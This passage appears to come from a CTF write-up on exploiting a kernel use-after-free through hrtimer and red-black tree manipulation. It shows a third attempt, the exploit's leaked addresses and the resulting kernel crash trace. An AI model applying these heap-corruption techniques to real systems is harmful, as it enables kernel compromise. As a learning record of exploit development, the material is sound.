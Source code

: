 Now, `rb_next()` gets called, probably one of the other functions trying to keep the red-black tree up to date, and there could be more.

### Try #3

We can try to rewrite the heap just before the timer is about to expire so that no functions running in the middle are interrupted. We get the following output:

```sh
./exploit
uaf_buf: 0x688840
base_address: 0xffffffff81800000
[    2.531285] BUG: kernel NULL pointer dereference, address: 0000000000000000
[    2.531656] #PF: supervisor write access in kernel mode
[    2.531821] #PF: error_code(0x0002) - not-present page
[    2.531982] PGD 1c02067 P4D 1c18067 PUD 1c2b067 PMD 0 
[    2.532274] Oops: 0002 [#1] PREEMPT SMP NOPTI
[    2.532515] CPU: 0 PID: 0 Comm: swapper/0 Tainted: G           O       6.6.16 #1

[    2.533046] RIP: 0010:rb_erase+0x18b/0x3a0
[    2.533398] Code: 48 83 c0 01 48 89 01 c3 cc cc cc cc c3 cc cc cc cc 48 89 46 10 e9 17 ff ff ff 48 8b 56 10 48 8d 41 01 48 89 51 08 48 89 4e 10 <48> 89 02 48 8b 01 48 89 06 48 89 31 48 83 f8 03 0$                                                                                                                  f 86 96 00 00 00
[    2.533843] RSP: 0018:ff48cf3480003f10 EFLAGS: 00010046
[    2.533986] RAX: ff1fe4150198b129 RBX: ff1fe4150761f710 RCX: ff1fe4150198b128
[    2.534140] RDX: 0000000000000000 RSI: ff1fe41501c06500 RDI: ff1fe4150761f710
[    2.534307] RBP: ff1fe4150761f220 R08: ff1fe4150761f220 R09: ff1fe41501bb9790
[    2.534479] R10: ff1fe4150762b580 R11: ff48cf3480003ff8 R12: 0000000000000002
[    2.534649] R13: ff1fe4150761f220 R14: ff1fe4150761f710 R15: ff1fe4150761f200
[    2.534964] FS:  0000000000000000(0000) GS:ff1fe41507600000(0000) knlGS:0000000000000000
[    2.535235] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    2.535412] CR2: 0000000000000000 CR3: 0000000001c12000 CR4: 0000000000751ef0
[    2.535663] PKRU: 55555554
[    2.535804] Call Trace:
[    2.536553]  <IRQ>
[    2.536884]  ? __die+0x1e/0x60
[    2.537021]  ? page_fault_oops+0x17c/0x470
[    2.537131]  ? exc_page_fault+0x6b/0x150
[    2.537278]  ? asm_exc_page_fault+0x26/0x30
[    2.537437]  ? rb_erase+0x18b/0x3a0
[    2.537543]  timerqueue_del+0x2e/0x50
[    2.537695]  __hrtimer_run_queues+0xdf/0x2a0
[    2.537826]  hrtimer_interrupt+0xf3/0x230
[    2.537947]  __sysvec_apic_timer_interrupt+0x4b/0x140
[    2.538082]  sysvec_apic_timer_interrupt+0x65/0x80
[    2.538290]  </IRQ>
[    2.538350]  <TASK>
```

![](/assets/img/ctf/ke1/img1.jpg)
